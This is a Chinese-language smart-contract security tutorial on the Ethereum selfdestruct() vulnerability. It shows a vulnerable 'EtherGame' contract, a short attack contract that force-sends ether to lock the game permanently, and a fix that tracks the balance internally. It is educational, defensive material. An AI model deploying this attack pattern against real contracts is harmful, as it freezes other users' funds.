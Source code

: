自毁函数
==

漏洞介绍
--

<code>selfdestruct()</code>由以太坊智能合约提供，用于销毁区块链上的智能合约。当合约执行自毁操作时，合约账户上剩余的以太币会发送给指定的目标，然后其存储和代码从状态中被移除。  
与删除硬盘上数据的不同是，即使合约被自毁移除，它仍然是区块链历史数据的一部分，可能被大多数以太坊节点保留。当有人发送ETH到自毁的合约时，ETH将永久丢失。 
恶意合约可以使用<code>selfdestruct()</code>强制向任何合约发送ETH。  

漏洞案例
--

1.漏洞合约是一个抢7游戏，每位玩家使用<code>deposit</code>方法每次向游戏合约发送1 ETH，当游戏合约内余额为7 ETH时，第7个玩家将会获得胜利获得7 ETH  

    contract EtherGame {
        uint public targetAmount = 7 ether;
        address public winner;

        function deposit() public payable {
            require(msg.value == 1 ether, "You can only send 1 Ether");

            uint balance = address(this).balance;
            require(balance <= targetAmount, "Game is over");

            if (balance == targetAmount) {
                winner = msg.sender;
            }
        }

        function claimReward() public {
            require(msg.sender == winner, "Not winner");

            (bool sent, ) = msg.sender.call{value: address(this).balance}("");
            require(sent, "Failed to send Ether");
        }
    }

2.攻击合约使用<code>selfdestruct()</code>向<code>EtherGame</code>发送ETH，由于绕过了<code>deposit</code>的判断逻辑，可以发送任意数量的ETH。当攻击后游戏合约内ETH余额>=7时，由于合约逻辑判断游戏已经结束，且未产生winner，之前发送ETH的玩家将永远无法取出ETH，造成游戏合约瘫痪。

  contract Attack {
      EtherGame etherGame;

      constructor(EtherGame _etherGame) {
          etherGame = EtherGame(_etherGame);
      }

      function attack() public payable {
          // You can simply break the game by sending ether so that
          // the game balance >= 7 ether

          // cast address to payable
          address payable addr = payable(address(etherGame));
          selfdestruct(addr);
      }
  }
  
修复建议
--

不要只依赖于<code>address(this).balance</code>判断合约内的余额，可以通过设置一个<code>balance</code>变量来计算合约内的余额，只有通过合约内方法转账才会增加余额。  
这样就算通过<code>selfdestruct()</code>进行强制转账也不会影响合约的余额，防止合约瘫痪。  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.13;

    contract EtherGame {
        uint public targetAmount = 3 ether;
        uint public balance;
        address public winner;

        function deposit() public payable {
            require(msg.value == 1 ether, "You can only send 1 Ether");

            balance += msg.value;
            require(balance <= targetAmount, "Game is over");

            if (balance == targetAmount) {
                winner = msg.sender;
            }
        }

        function claimReward() public {
            require(msg.sender == winner, "Not winner");

            (bool sent, ) = msg.sender.call{value: balance}("");
            require(sent, "Failed to send Ether");
        }
    }

